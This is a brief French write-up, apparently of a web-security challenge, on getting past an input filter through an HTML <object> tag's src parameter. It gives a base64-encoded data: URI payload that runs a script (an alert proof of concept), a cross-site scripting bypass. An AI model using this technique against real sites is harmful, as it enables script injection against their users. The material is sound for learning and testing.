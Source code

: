 # Object

Sur la page media, un paramètre src va être placé dans un `<object>` HTML, une balise pouvant exécuter du javascipt mais le parseur bloque les URLs, les balises HTML mais on peut passer un bout de javascript encodé en base64 et embarquer du JS sur notre page.
```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```
